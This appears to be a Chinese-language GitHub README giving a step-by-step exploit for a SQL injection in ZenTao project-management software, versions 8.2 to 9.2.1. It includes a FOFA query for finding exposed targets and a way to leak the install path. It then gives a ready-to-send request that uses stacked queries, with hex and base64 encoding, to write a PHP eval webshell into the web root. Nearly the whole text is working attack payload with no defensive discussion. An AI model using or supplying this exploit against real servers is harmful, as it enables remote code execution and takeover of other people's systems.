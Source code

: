 # 禅道8.2-9.2.1版本注入漏洞
## 资产搜索
fofa app="易软天创-禅道系统"
### 获取服务版本
`/zentao/index.php?mode=getconfig`  
![](img/version.png)
### 获取绝对路径
url随便输入，根据报错查看路径：`/zentao/3424/`  
![](img/path.png)
## POC
- sql注入语句：  
```sql
select '<?php @eval($_POST[x])?>' into outfile '/opt/zbox/app/zentao/www/hack.php'
```
- 进行HEX编码(注意加密解密都不带0x，但是EXP中需要加上）：  
```hex
73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C6520272F6F70742F7A626F782F6170702F7A656E74616F2F7777772F6861636B2E70687027
```
- HEX编码后前面加上0x进行拼接：
```json
{"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C6520272F6F70742F7A626F782F6170702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}
```
- 整体base64编码：
```base64
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzJGNkY3MDc0MkY3QTYyNkY3ODJGNjE3MDcwMkY3QTY1NkU3NDYxNkYyRjc3Nzc3NzJGNjg2MTYzNkIyRTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9
```
- 发送EXP：
```url
http://x.x.x.x/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzJGNkY3MDc0MkY3QTYyNkY3ODJGNjE3MDcwMkY3QTY1NkU3NDYxNkYyRjc3Nzc3NzJGNjg2MTYzNkIyRTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9
```  
![](img/EXP.png)
参考：https://www.hacking8.com/bug-web/禅道/禅道8.2-9.2.1-注入GetShell.html



